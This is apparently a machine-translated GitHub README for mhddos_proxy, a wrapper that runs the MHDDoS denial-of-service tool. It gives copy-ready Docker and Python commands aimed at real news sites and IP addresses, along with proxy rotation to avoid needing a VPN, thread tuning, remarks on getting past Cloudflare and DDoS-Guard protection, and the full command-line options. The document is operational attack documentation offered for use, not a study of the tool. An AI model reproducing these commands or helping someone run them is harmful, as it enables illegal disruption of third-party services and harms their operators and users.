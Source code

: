 Wrapper script to run the powerful DDoS tool [MHDDoS] (https://github.com/MHProDev/MHDDoS).

- ** Does not require VPN ** - downloads and selects working proxies for the attack (available mode `--vpn` optional)
- Attack ** multiple targets ** with automatic load balancing
- Uses ** various methods to attack **

### ⏱ Recent updates

- ** 03.04.2022 ** Fixed bug Too many open files (thanks, @ kobzar-darmogray and @ euclid-catoptrics)
- ** 02.04.2022 ** Workflows are no longer restarted for each cycle, but are reused. Ctrl-C has also been fixed
- ** 01.04.2022 ** Updated CFB method in accordance with MHDDoS. [See notes below] (# - warning-about-some-attack-methods)
- ** 31.03.2022 ** Added reliable DNS servers for target resolving, instead of system. (1.1.1.1, 8.8.8.8 etc.)

<details>
  <summary> 📜 Previous </summary>

- ** 29.03.2022 ** Added support for local configuration file (thank you very much, @ kobzar-darmogray).
- ** 28.03.2022 ** Added tabular output `--table` (thank you very much, @ alexneo2003).
- ** 27.03.2022 **
    - DBG, BOMB (thanks @ drew-kun for PR) and KILLER methods are allowed to run to match the original MHDDoS.
- ** 26.03.2022 **
    - Launch all selected attacks instead of random
    - Reduced RAM usage on a large number of targets - now only the `-t` parameter affects RAM
    - Added DNS caching and correct handling of resolving problems
- ** 25.03.2022 ** Added VPN mode instead of proxy (`--vpn` checkbox)
- ** 25.03.2022 ** MHDDoS included in the repository for greater control over the development and protection against unexpected
  changes
</details>

### 💽 Installation | Installation - [instructions HERE] (/ docs / installation.md)

### 🕹 Run | Running (different goal options are given)

#### Docker

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp: //194.54.14.131: 4477

#### Python (if it doesn't work - just python instead of python3)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp: //194.54.14.131: 4477

### 🛠 Settings (more in [CLI] (# cli))

** All parameters can be combined **, you can specify both before and after the list of goals

Change load - `-t XXXX` - number of threads, default - CPU * 1000

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy -t 3000 https://ria.ru https://tass.ru

To view information about the progress of the attack, add the `--table` check box for the table,` --debug` for the text

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --table https://ria.ru https://tass.ru

### 🐳 Community
- [Detailed analysis of MHDDoS_proxy] (https://github.com/SlavaUkraineSince1991/DDoS-for-all/blob/main/MHDDoS_proxy.md)
- [Utility for converting shared targets into config format] (https://github.com/kobzar-darmogray/mhddos_proxy_utils)
- [Analysis of the tool mhddos_proxy] (https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)

### 🚨 Warning about some attack methods
The ** BYPASS ** method is a slow version of the GET method, which has questionable effectiveness due to the lack of a noticeable implementation of security bypass.

** CFB ** method - can bypass only a small part of the protection of some sites, full implementation requires a CAPTCHA solution,
and access to a paid version of the library that cannot be included in mhddos_proxy (open source).
** DGB ** method - successful requests do not depend on the implementation itself (it does not work), but on the "purity" of the IP address.
There is currently no reliable open-source implementation of Cloudflare and DDoS-Guard workarounds.
Finding the original target servers or attacking by default will be more effective.

The ** BOMB ** method requires much more RAM - reduce the value of `-t`.
Also needs additional settings when running via python - please contact
to [MHDDoS documentation] (https://github.com/MHProDev/MHDDoS).

The ** KILLER ** method can have unpredictable consequences for your system - use at your own risk.

### CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-p PERIOD]
                     [-c URL]
                     [--table]
                     [--debug]
                     [--vpn]
                     [--rpc RPC] 
                     [--proxy-timeout TIMEOUT]
                     [--http-methods METHOD [METHOD ...]]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL to remote or path to local config file (list of targets in plain text)
      -t, --threads 2000     Total number of threads to run (default is CPU * 1000)
      -p, --period 900       How often to update the proxies (default is 900)
      --table                Print log as table
      --debug                Print log as text
      --vpn                  Disable proxies to use VPN
      --rpc 2000             How many requests to send on a single proxy connection (default is 2000)
      --proxy-timeout 5      How many seconds to wait for the proxy to make a connection (default is 5)
      --http-methods GET     List of HTTP(s) attack methods to use.
                             (default is GET, POST, STRESS, BOT, PPS)
                             Refer to MHDDoS docs for available options
                             (https://github.com/MHProDev/MHDDoS)
